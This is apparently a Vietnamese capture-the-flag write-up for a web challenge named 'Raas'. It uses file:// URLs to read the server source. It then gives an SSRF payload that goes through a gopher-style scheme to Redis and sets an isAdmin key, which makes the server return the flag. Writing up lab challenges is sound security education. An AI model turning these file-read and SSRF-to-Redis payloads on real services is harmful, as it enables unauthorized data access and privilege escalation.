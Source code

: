 ## Challenge Raas
Được cung cấp một Dockerfile thì chúng ta đọc nó thôi hehe
```
ADD flask-server /code
WORKDIR /code
RUN pip install -r requirements.txt
CMD ["python", "app.py"]
```
Thấy được có nơi lưu code để deploy là `/code`
Ở ô input thì chúng ta phải nhập một url. Ở đây mình thử nhập 1 protocol là `file://` với hi vọng tải được file source về.
Lần 1: `file:///code/app.py` -> tải được file app.py
Ở trong phần import thư viện thì mình thấy `from main import Requests_On_Steroids`, vậy nên thử tải luôn main.py
Lần 2: `file:///code/main.py` -> tải được file main.py

File `app.py`
Đầu tiên ta thấy server sử dụng `redis`.
```py
if not request.cookies.get('userID'):
    user=Upper_Lower_string(32)
    r.mset({str(user+"_isAdmin"):"false"})
    resp.set_cookie('userID', user)
else:
    user=request.cookies.get('userID')
    flag=r.get(str(user+"_isAdmin"))
    if flag == b"yes":
        resp.set_cookie('flag',str(os.environ['FLAG']))
    else:
        resp.set_cookie('flag', "NAAAN")
return resp
```
Ở đoạn code này nếu như `user_isAdmin = yes` thì mình flag sẽ được set cho cookie có name là `flag`, mặc định sẽ là `user_isAdmin = false` và cookie flag được đặt là `NAAAN`.

File `main.py`
```py
def Requests_On_Steroids(url):
    try:
        s = requests.Session()
        s.mount("inctf:", GopherAdapter())
        s.mount('file://', LocalFileAdapter())
        resp = s.get(url)
        assert resp.status_code == 200
        return(resp.text)
    except:
        return "SOME ISSUE OCCURED"
```
Ở file này nó mount schema vậy mình chỉ cần gopher vô redis set uid của mình là isAdmin = yes là có flag (SSRF)

### Payload
`inctf://redis:6379/_set taidh_isAdmin yes`
Sau đó truy cập lại với cookie uid=taidh sẽ có flag trả về ở cookie

